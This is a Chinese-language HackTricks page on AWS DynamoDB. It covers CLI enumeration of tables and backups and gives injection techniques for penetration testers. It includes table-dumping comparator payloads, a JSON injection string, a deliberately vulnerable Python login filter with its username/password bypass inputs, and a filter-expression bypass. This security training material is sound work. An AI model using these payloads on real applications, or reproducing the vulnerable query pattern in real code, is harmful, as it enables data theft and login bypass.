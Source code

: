 # AWS - DynamoDB Enum

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## DynamoDB

### 基本信息

亚马逊 DynamoDB 被 AWS 提供为一个 **完全托管的无服务器键值 NoSQL 数据库**，旨在为各种规模的高性能应用提供支持。该服务确保了强大的功能，包括固有的安全措施、不间断的备份、跨多个区域的自动复制、集成的内存缓存和便捷的数据导出工具。

在 DynamoDB 的上下文中，而不是建立传统数据库，**创建表**。每个表都要求指定一个 **分区键**，作为 **表主键** 的一个组成部分。这个分区键，实质上是一个 **哈希值**，在项目的检索和数据在不同主机之间的分配中起着关键作用。这种分配对于维护数据库的可扩展性和可用性至关重要。此外，还有一个选项可以加入 **排序键** 以进一步细化数据组织。

### 加密

默认情况下，DynamoDB 使用一个 **属于亚马逊 DynamoDB 的 KMS 密钥，**甚至不是至少属于您账户的 AWS 管理密钥。

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### 备份与导出到 S3

可以 **安排** 生成 **表备份** 或按 **需创建**。此外，还可以为表启用 **时间点恢复 (PITR)**。时间点恢复为您的 DynamoDB 数据提供连续的 **备份**，持续 **35 天**，以帮助您防止意外的写入或删除操作。

还可以将 **表的数据导出到 S3**，但该表需要启用 **PITR**。

### GUI

有一个用于本地 Dynamo 服务的 GUI，如 [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/)、[dynalite](https://github.com/mhart/dynalite)、[localstack](https://github.com/localstack/localstack) 等，这些可能会很有用：[https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### 枚举
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### 未经身份验证的访问

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### 权限提升

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### 利用后期

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### 持久性

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB 注入

### SQL 注入

有方法可以使用 **SQL 语法** 访问 DynamoDB 数据，因此，典型的 **SQL 注入也是可能的**。

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL 注入

在 DynamoDB 中，可以使用不同的 **条件** 来检索数据，就像在常见的 NoSQL 注入中，如果可以 **链式添加更多条件以检索** 数据，您可能会获得隐藏的数据（或转储整个表）。\
您可以在这里找到 DynamoDB 支持的条件：[https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

请注意，如果通过 **`query`** 或 **`scan`** 访问数据，支持 **不同的条件**。

{% hint style="info" %}
实际上，**Query** 操作需要在 **主** 键中指定 **条件 "EQ"（等于）** 才能工作，这使得它 **更不容易受到 NoSQL 注入**（同时也使操作非常有限）。
{% endhint %}

如果您可以 **更改执行的比较** 或添加新的比较，您可能会检索到更多数据。
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### 原始 Json 注入

{% hint style="danger" %}
**此漏洞基于现已弃用的 dynamodb 扫描过滤器！**
{% endhint %}

**DynamoDB** 接受 **Json** 对象以 **搜索** 数据。如果你发现可以在发送的 json 对象中进行写入，你可以使数据库转储所有内容。

例如，在请求中注入如下内容：

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

攻击者可以注入类似于：

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

修复“EQ”条件，搜索 ID 1000，然后查找所有 Id 字符串大于 0 的数据，即所有数据。

另一个 **使用登录的脆弱示例** 可能是：
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
这将容易受到以下攻击：
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

一些 SDK 允许使用一个字符串来指示要执行的过滤，如： 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

您需要知道，在DynamoDB中搜索以**替换**属性**值**的**过滤表达式**时，令牌应以**`:`**字符**开头**。这样的令牌将在运行时**替换**为实际的**属性值**。

因此，像之前的登录可以通过类似以下内容绕过：
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
